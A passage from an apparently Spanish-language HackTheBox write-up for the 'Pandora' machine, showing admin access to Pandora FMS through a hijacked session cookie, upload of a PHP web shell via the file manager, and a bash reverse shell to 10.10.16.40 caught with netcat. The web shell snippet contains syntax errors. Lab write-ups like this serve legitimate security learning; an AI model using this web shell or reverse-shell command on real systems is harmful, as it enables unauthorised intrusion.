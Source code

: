 Teniendo la cookie del admin, podemos inyectarla en una petición usando el parámetro **`session_id`**
```
http://localhost/pandora_console/include/chart_generator.php?session_id=nvccpkpgo3sq1i9g333v3vp6it
```

Si recargamos la página con F5, deberíamos haber logrado acceso como administrador al panel:

![Admin](/assets/images/hackthebox/machines/pandora/admin.png)

Analizando el código del exploit vemos que posteriormente a obtener la cookie del admin, se intenta subir un archivo.
Esto es posible dado que en el CMS tenemos varias herramientas como administradores, entre ellas un File Manager.

![File Manager](/assets/images/hackthebox/machines/pandora/filemanager.png)

![Upload File](/assets/images/hackthebox/machines/pandora/uploadfile.png)

Pues sabiendo todo esto, vamos a subir nuestra web shell en PHP para poder ejecutar comandos.

```php
<?php>
  echo "<pre>" . shell_exec($_REQUESTS['cmd']) . "</pre>";
<?>
```

![Uploading](/assets/images/hackthebox/machines/pandora/uploading.png)

![Success](/assets/images/hackthebox/machines/pandora/success.png)

![Uploaded](/assets/images/hackthebox/machines/pandora/uploaded.png)

Ahora simplemente vamos a la dirección donde se encuentra nuestro archivo php y ya podemos ejecutar comandos.

![RCE](/assets/images/hackthebox/machines/pandora/rce.png)

Vamos a entablar una conexión inversa hacia nuestra máquina para mayor comodidad y operar con una shell:

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.40/9999 0>&1"
```

Antes de enviar el comando con la webshell, nos ponemos en escucha con netcat:

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.40] from (UNKNOWN) [10.10.11.136] 42428
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images$ 
```
